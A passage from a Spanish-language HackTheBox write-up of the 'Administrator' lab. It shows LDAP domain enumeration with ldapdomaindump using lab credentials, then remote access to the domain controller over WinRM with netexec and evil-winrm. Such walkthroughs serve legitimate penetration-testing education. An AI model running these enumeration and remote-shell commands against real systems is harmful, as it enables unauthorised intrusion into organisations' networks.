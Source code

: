```bash
ldapdomaindump -u 'administrator.htb\Olivia' -p 'ichliebedich' 10.10.11.42 -o ldap
```

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

Revisando el archivo "domain\_users.html" verificamos que el usuario que disponemos forma parte del grupo "Remote Management Users", con el cual podríamos conectarnos al DC a través de WinRM, PsExec, etc.

<figure><img src="../../../.gitbook/assets/2518_vmware_q1EDJinRJG.png" alt=""><figcaption></figcaption></figure>

## Abusing WinRM

Procederemos a acceder al WinRM a través de **evil-winrm** con el usuario que nos proporciona _HackTheBox_ y hemos comprobado que forma parte del grupo "Remote Management Users".

```bash
netexec winrm 10.10.11.42 -u 'Olivia' -p 'ichliebedich'

evil-winrm -i 10.10.11.42 -u 'Olivia' -p 'ichliebedich'
```
